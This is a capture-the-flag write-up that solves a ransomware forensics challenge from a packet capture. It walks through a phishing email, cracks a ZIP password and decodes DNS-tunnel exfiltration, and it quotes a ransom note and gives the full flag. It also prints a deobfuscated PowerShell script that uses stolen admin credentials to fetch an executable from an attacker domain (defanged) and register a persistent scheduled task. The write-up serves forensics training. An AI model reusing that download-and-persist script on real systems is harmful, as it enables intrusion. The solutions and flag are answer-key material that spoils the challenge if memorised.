# Alice_In_Rans0ml4nd

![chall](img/chall1.png)
![chall](img/chall2.png)
![chall](img/chall3.png)

## Files

>[!CAUTION]
> Disclaimer : The PCAP file provided in this challenge contains real or simulated malicious payloads (such as executables, scripts, or infected files transferred over the network).
> Use an isolated environment !

>[!NOTE]
> All suspicious/malicious content has been defanged in this WU.

* **esna_AliceInRans0ml4nd.zip** : challenge archive, encrypted
  * Archive password :
      <details>
      <summary>Click to reveal</summary>

      `1_C0ns3nt_;)`

      </details>
* **solve-material/** : folder containing solution material, browse with spoiler alert !

*Note : while this challenge was classified as 'Easy', I would argue it is more 'Medium' or even 'Hard' due to the diverse skills required to solve it (PCAP analysis, email analysis, password cracking, PowerShell deobfuscation, cryptography).*

<details>
<summary>Solution</summary>

<img width=400 src="solve-material/img-wu/meme-encrypted.png" />

## Introduction : Wireshark/network forensics quick wins

There are multiple tips that can help you to quickly identify interesting artifacts in a PCAP file.
As they will be mentioned along this WU, here is a quick list of them : 
* **grep** (with -a option to treat binary files as text), especially with regex (LLM are your friends here)
* **Find a packet** button (Wireshark) to search for strings in packets
* **Follow TCP/UDP stream** feature (Wireshark) to reconstruct conversations and easly watch for cleartext data
* **File -> Export objects** feature (Wireshark) to extract files transferred over HTTP, FTP, SMB, etc.
  * Can also be done using tshark command line tool

## Emails

* A quick win for this task is using grep :
    ```bash
    $ grep -E -an '[A-Za-z0-9._%+-]+@[A-Za-z0-9.-]+\.[A-Za-z]{2,}' chall.pcapng
    4563:To: natacha.routi@alice.corp
    4571:Return-Path: <it-support@alices.corp>
    4572:From: it-support@alices.corp
    10890:   sphinxhelpdesk@sphinxlock.ru
    ```
* We have multiple choices here. Let's dive in the PCAP.
* We find an interesting packet :
    ![email](solve-material/img-wu/mail.png)
* When following the TCP stream or opening the extracted `.eml` file, we obtain the following :
    <details>
    <summary>Email</summary>

    ```
    To: natacha.routi@alice.corp
    Content-Transfer-Encoding: quoted-printable
    Received: from mail.alice.corp by Alice.corp (Alice-Corp)
            id h3hvlhkzBteXTAmbr4qz4Pwj0NvpLr4Nq_e2PObs7Vg=@Alice.corp; Sun, 22 Jun 2025 09:27:47 +0200
    Subject: Internal Helpdesk Tool =?utf-8?b?4oCT?= Alice Corp
    Content-Type: text/plain; charset="utf-8"
    MIME-Version: 1.0
    Message-ID: h3hvlhkzBteXTAmbr4qz4Pwj0NvpLr4Nq_e2PObs7Vg=@Alice.corp
    Return-Path: <it-support@alices.corp>
    From: it-support@alices.corp

    Hello,

    The IT department has published a new internal version of the Helpdesk tool. =
    =20
    Please download it using the link below:

    Download link: hxxps://www.dropbox.com/scl/fi/n13dckvawgi8rf50qr6ij/helpdesk.=
    zip?rlkey=3Ddlnvxltgup1wnlesbuiey2fwe&e=3D2&st=3D98676emp&dl=3D1

    Note: The archive is password protected. =20
    It is the common password used internally at Alice Corp to secure ZIP files.

    Do not share this file outside the internal network.

    Best regards, =20
    IT Support =20
    Alice Corp
    ```

    </details>

✅ 1. The email address used by the attacker: `it-support@alices.corp`<br>
✅ 2. The email address targeted within the company: `natacha.routi@alice.corp`

## First malware

* From the previous email, we immediately spot the Dropbox link.
* However, trying to access it directly fails.
* Turns out it is encoded as [Quoted Printable](https://en.wikipedia.org/wiki/Quoted-printable).
* Let's deocde it with [CyberChef](https://gchq.github.io/CyberChef/) :
    ![cyberchef](solve-material/img-wu/url-decode.png)
* Here are the changes :
    ![decoded](solve-material/img-wu/url-diff.png)
* When browsing the link, we may be asked to login, use a soc puppet account if needed.
* We can download the `helpdesk.zip` file.
* However, as stated in the email, it is password protected.
* We try to bruteforce it with John the Ripper :
    ```bash
    $ zip2john helpdesk.zip > helpdesk.hash
    $ john --wordlist=rockyou.txt helpdesk.hash
    Using default input encoding: UTF-8
    Loaded 1 password hash (PKZIP [32/64])
    Will run 2 OpenMP threads
    Note: Passwords longer than 21 [worst case UTF-8] to 63 [ASCII] rejected
    Press 'q' or Ctrl-C to abort, 'h' for help, almost any other key for status
    !!Miley24$$      (helpdesk.zip)     
    1g 0:00:00:01 DONE (2025-10-22 02:23) 0.5291g/s 7589Kp/s 7589Kc/s 7589KC/s !LUM!*#1..*7¡Vamos!
    Use the "--show" option to display all of the cracked passwords reliably
    Session completed
    ```
* ... which gives the password instantly : `!!Miley24$$`
* We can now extract the archive and obtain `helpdesk.exe`.
    ```bash
    $ md5sum helpdesk.exe
    8d8b36683ed095a7eebe4e8c70141bfc  helpdesk.exe
    ```

✅ 3. The MD5 hash of the first malware: `8d8b36683ed095a7eebe4e8c70141bfc`

## Malicious script

* While exploring the PCAP, we spot some explicit ps1 file name :
    ![ps1](solve-material/img-wu/sus-ps1.png)
    ![sus](solve-material/img-wu/Suspicious-Meme.jpeg)
* Either by looking at the exported HTTP objects or by exploring the PCAP, we can read its content :
    ```powershell
    $z1 = @(0x13,0x62,0x44,0x52,0x45,0x17,...,0x3d,0x4a,0x3d) # truncated for readability
    $z2 = ""
    foreach ($z3 in $z1) {
        $z2 += [char]($z3 -bxor 0x37)
    }

    Invoke-Expression $z2
    ```
* We craft a [Python script](solve-material/decode-ps1.py) to deobfuscate it. Here is the result :
    <details>
    <summary>deploy-malware.ps1</summary>

    ```powershell
    $User = "alice-corp\administrateur"
    $PasswordPlain = "admin123sY*-+"
    $Pass = ConvertTo-SecureString $PasswordPlain -AsPlainText -Force
    $Cred = New-Object System.Management.Automation.PSCredential($User, $Pass)

    $RemoteHost = "192.168.57.200"

    $RemoteCommand = {
        $exeUrl = "hxxp://susqoUh.ru:8000/susqoUh.exe"
        $exePath = "C:\Windows\Temp\helpdesk.exe"
        $taskName = "DontTouchMe"

        try {
            Invoke-WebRequest -Uri $exeUrl -OutFile $exePath -UseBasicParsing

            $action = New-ScheduledTaskAction -Execute $exePath
            $trigger = New-ScheduledTaskTrigger -AtStartup
            $settings = New-ScheduledTaskSettingsSet -StartWhenAvailable -AllowStartIfOnBatteries -DontStopIfGoingOnBatteries

            Register-ScheduledTask -TaskName $taskName `
                -Action $action `
                -Trigger $trigger `
                -User "alice-corp\administrateur" `
                -Password "admin123sY*-+" `
                -Settings $settings `
                -RunLevel Highest `
                -Force

            Start-ScheduledTask -TaskName $taskName

        } catch {
            Write-Host ""
        }
    }

    try {
        Invoke-Command -ComputerName $RemoteHost -Credential $Cred -ScriptBlock $RemoteCommand -ErrorAction Stop
    } catch {
        Write-Host ""
    }
    ```

    </details>

✅ 4. The domain name contacted to download a script: `ykfqaqa.ru`<br>
✅ 5. The password used to connect to the server: `admin123sY*-+`<br>
✅ 6. The name of the scheduled task that was executed: `DontTouchMe`<br>
✅ 7. The domain name contacted by the script to download the second malware: `susqouh.ru`

## Malware on the server

* We can now search for `susqoUh.exe` in the PCAP or directly browse the downloaded objects for http.
    ![exe](solve-material/img-wu/sus-exe.png)
* When obtained, we compute its MD5 hash :
    ```bash
    $ md5sum susqoUh.exe
    5d820e7bbb4e4bc266629cadfa474365  susqoUh.exe
    ```

✅ 8. The MD5 hash of the malware present on the server: `5d820e7bbb4e4bc266629cadfa474365`

## Ransom note

* Where could we find traces of ransomware activity ? In a ransom note of course !
* Remember the extra email we found with grep ? Let's search it in the raw PCAP :
    ```bash
    $ grep -ab "sphinxhelpdesk@sphinxlock.ru" chall.pcapng
    5125754:   sphinxhelpdesk@sphinxlock.ru
    ```
* Let's browser around these bytes and extract the text :
    ```bash
    $ tail -c +5125754 chall.pcapng | strings | head -n 15
    sphinxhelpdesk@sphinxlock.ru
    Include in your message:
    - Your unique victim ID: #SPX-3041B
    - Proof of payment
    - 1 encrypted files (max 1MB) for free decryption test
    >>> WARNING:
    If you fail to pay within 72 hours, we will:
    - Start posting confidential files.
    - Sell sensitive corporate data.
    This is your only opportunity to prevent a total data breach.
    We are watching.
    SPHINXLOCK
    notepad
    FieldSet corrupted (this is a bug)C:\Users\sachu\.cargo\registry\src\index.crates.io-1949cf8c6b5b557f\trust-dns-proto-0.22.0\src\xfer\dns_multiplexer.rs
    stream is done: @:
    ```
* After going a few bytes backward, we can extract the full ransom note :
    ```bash
    $ tail -c +5124900 chall.pcapng | strings | head -n 25
    #SPX-3041BidYinxuqab.rukeyfile
    message.txt---[ SPHINXLOCK RANSOMWARE GROUP ]---
    Your network has been compromised and all critical files have been encrypted.
    This includes documents, databases, backups, and internal project files.
    We are SPHINXLOCK 
    specializing in corporate data extraction and ransomware-as-a-service.
    Do NOT attempt to recover your files using third-party tools. Doing so will permanently corrupt them.
    >>> How to restore your files:
    1. Purchase 5000 USD in Monero (XMR) cryptocurrency.
    2. Send the exact amount to the following wallet address:
    84N2hXaVqgS5DzA1FpkGuD98Ex2cVXH6k8RwZ7PmUz1oBY9X6GZYMT3WJYkfY9AdELNH2tsBrxJZcdkLkJxYH5RZ73XKbPq
    3. After payment, email us at:
    sphinxhelpdesk@sphinxlock.ru
    Include in your message:
    - Your unique victim ID: #SPX-3041B
    - Proof of payment
    - 1 encrypted files (max 1MB) for free decryption test
    >>> WARNING:
    If you fail to pay within 72 hours, we will:
    - Start posting confidential files.
    - Sell sensitive corporate data.
    This is your only opportunity to prevent a total data breach.
    We are watching.
    SPHINXLOCK
    notepad
    ```
* Alternatively, after searching the email in packet bytes in Wireshark, we can follow the TCP stream of the second binary extracted and read the ransom note there.
    ![ransom](solve-material/img-wu/ransom-message-wshark.png)

✅ 10. The name of the ransomware gang (in lowercase): `sphinxlock`<br>
✅ 11. The cryptocurrency wallet address used by the attackers: `84N2hXaVqgS5DzA1FpkGuD98Ex2cVXH6k8RwZ7PmUz1oBY9X6GZYMT3WJYkfY9AdELNH2tsBrxJZcdkLkJxYH5RZ73XKbPq`

<img width=400 src="solve-material/img-wu/sphinxlock-meme.png" />

## Data exfiltration

* A common technique used by malware for data exfiltration is DNS tunneling.
* So let's browse the PCAP with this in mind.
* We find some random looking and explicit DNS queries :
    ![dns](solve-material/img-wu/dns-exfil.png)
* These are split in 3 groups : fileX, keyX, and idX.
* Let's grab them easly with some greps :
  * file0
    ```bash
    grep -a -n "yinxuqab.ru" chall.pcapng | strings | grep file | sort -u
    0file0-0-d2373cdd6d999679668b0d4587abbeb325bda034
    0file0-1-3841f3cdb1e4ec8f7b597f75ddde462a9bbefb82
    0file0-2-8318f3bc16af0f52dce3ffbfa34670557bf89ee9
    0file0-3-8ce45da82eb45abd320c4b0a143e2569a6bd8a8f
    file0-4-8d7c0e52a76ff4b4505e82df2c204632
    file0-complete
    ```
    * Complete stream :
        `d2373cdd6d999679668b0d4587abbeb325bda0343841f3cdb1e4ec8f7b597f75ddde462a9bbefb828318f3bc16af0f52dce3ffbfa34670557bf89ee98ce45da82eb45abd320c4b0a143e2569a6bd8a8f8d7c0e52a76ff4b4505e82df2c204632`
  * id0
    ```bash
    grep -a -n "yinxuqab.ru" chall.pcapng | strings | grep id | sort -u
    id-0-235350582d3330343142
    id-complete
    ```
    * Gives just `235350582d3330343142`
    * From hex : `#SPX-3041B`
    * Just the victim ID (seen in ransom note)
  * key0
    ```bash
    grep -a -n "yinxuqab.ru" chall.pcapng | strings | grep key | sort -u
    key-0-3de090e7059fb1d7f77dec50078405c855e3f1a4
    key-1-6589e72db2602c7d7e8403b8
    key-complete
    ```
    * Complete stream :
        `3de090e7059fb1d7f77dec50078405c855e3f1a46589e72db2602c7d7e8403b8`
* Time to decrypt... But how ?
* After ~~torturing~~ asking gently to different LLMs, we find the right prompting approach to ask for common encryption algorithms.
  * It helps us to craft a [decryption script](solve-material/decode-dns.py).
* Turns out it was encrypted using **AES GCM**.
    ```bash
    $ python3 decode-dns.py 
    OFB: ...
    CFB: ...
    GCM: Congratulation this is your final part : DNS_TUNNEL_SUCCESS_C0MPLETE
    ```

✅ 9. The domain name used for data exfiltration: `yinxuqab.ru`<br>
✅ 12. The final flag contained in a file exfiltrated by the malware: `DNS_TUNNEL_SUCCESS_C0MPLETE`

## Final flag

* To avoid messing up copy-paste/flag formatting, we created a [python script](solve-material/craft-flag.py) that generates the final flag from all the previous answers.
* Generated flag:
    `it-support@alices.corp:natacha.routi@alice.corp:8d8b36683ed095a7eebe4e8c70141bfc:ykfqaqa.ru:admin123sY*-+:DontTouchMe:susqouh.ru:5d820e7bbb4e4bc266629cadfa474365:yinxuqab.ru:sphinxlock:84N2hXaVqgS5DzA1FpkGuD98Ex2cVXH6k8RwZ7PmUz1oBY9X6GZYMT3WJYkfY9AdELNH2tsBrxJZcdkLkJxYH5RZ73XKbPq:DNS_TUNNEL_SUCCESS_C0MPLETE`
* Final Flag: `ECW{f68ba371b5fc66c802207b9bedd0838af9d6d7a46085765425d89f80f558b3f9}`

## Conclusion

While this WU may look straightforward, I spent **hours** on this one.
I fell in the rabbithole a few time, e.g. decrypting the winrm traffic (which was not needed). At least I learned how this protocol works !
I learnt a lot on network forensics in general.

<img height=200 src="solve-material/img-wu/rabbithole.jpg" />

</details>